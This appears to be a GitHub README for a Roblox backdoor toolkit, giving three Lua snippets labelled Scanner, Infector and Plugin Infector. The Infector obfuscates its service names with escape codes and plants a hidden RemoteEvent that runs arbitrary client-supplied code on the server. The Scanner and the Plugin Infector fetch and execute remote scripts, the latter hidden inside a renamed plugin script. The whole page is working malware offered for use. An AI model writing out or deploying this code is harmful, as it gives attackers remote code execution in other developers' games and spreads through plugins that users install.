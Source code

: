 # Scanner
```lua
loadstring(game:HttpGet('https://raw.githubusercontent.com/IvanTheProtogen/BackdoorLegacy/main/main.lua'))();
```

# Infector
```lua
if not game:GetService('\82\117\110\83\101\114\118\105\99\101'):IsStudio() then getfenv(0)["\73\110\115\116\97\110\99\101"]["\110\101\119"]("\82\101\109\111\116\101\69\118\101\110\116",workspace).OnServerEvent:Connect(function(_,code) getfenv(0)["\114\101\113\117\105\114\101"](0x34A62CEB9):SpawnS(code,workspace) end) end
```

# Plugin Infector 
## Put it directly inside PluginScript.
## Please rename the PluginScript into "YnRFAWcnYCPXQTysUmXvCdZBYHGtibTpvPZoZbAgvFitsDkbivVJzrnBNPBwCGJq".
```lua
game:GetService('HttpService').HttpEnabled = true
loadstring(game:GetService('HttpService'):GetAsync('https://raw.githubusercontent.com/IvanTheProtogen/BackdoorLegacy/main/plugin-infector.lua'))()
```
